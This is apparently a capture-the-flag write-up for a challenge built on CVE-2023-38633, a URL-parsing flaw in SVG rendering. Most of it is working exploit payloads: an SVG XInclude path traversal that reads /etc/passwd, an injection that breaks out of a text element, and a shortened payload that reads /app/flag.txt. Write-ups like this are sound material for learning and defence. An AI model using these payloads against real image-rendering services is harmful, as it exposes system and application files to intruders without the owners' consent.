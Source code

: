 
## Vulnerability Info
Challenge based on the CVE-2023-38633:
 - https://www.canva.dev/blog/engineering/when-url-parsers-disagree-cve-2023-38633/

With a publicly available exploit (that does not work out of the box for this challenge):
```xml
<?xml version="1.0" encoding="UTF-8" standalone="no" ?>
<svg width="300" height="300" xmlns:xi="http://www.w3.org/2001/XInclude">
  <rect width="300" height="300" style="fill:rgb(255,204,204);" />
  <text x="0" y="100">
    <xi:include
      href=".?../../../../../../../etc/passwd"
      parse="text"
      encoding="ASCII"
    >
      <xi:fallback>file not found</xi:fallback>
    </xi:include>
  </text>
</svg>
```

## Exploitation

You need to embed the svg inside the svg:
```xml
</text>
<g x="0" y="0" width="300" height="300" xmlns:xi="http://www.w3.org/2001/XInclude">
  <text x="0" y="100">
    <xi:include href=".?../../../../../../../etc/passwd" parse="text" encoding="ASCII">
      <xi:fallback>file not found</xi:fallback>
    </xi:include>
  </text>
</g><text>
```

Now try to load the flag:
```xml
</text>
<g x="0" y="0" width="300" height="300" xmlns:xi="http://www.w3.org/2001/XInclude">
  <text fill="red" stroke="black" x="0" y="100">
    <xi:include href=".?../../../../../../../app/flag.txt" parse="text" encoding="ASCII">
      <xi:fallback>file not found</xi:fallback>
    </xi:include>
  </text>
</g><text>
```

Minimify the exploit in length so that it fits the challenge restrictions:
```xml
</text><g xmlns:xi="http://www.w3.org/2001/XInclude"><text y="10" font-family="monospace"><xi:include href=".?../../../../app/flag.txt" parse="text" encoding="ASCII"></xi:include></text></g><text>
```
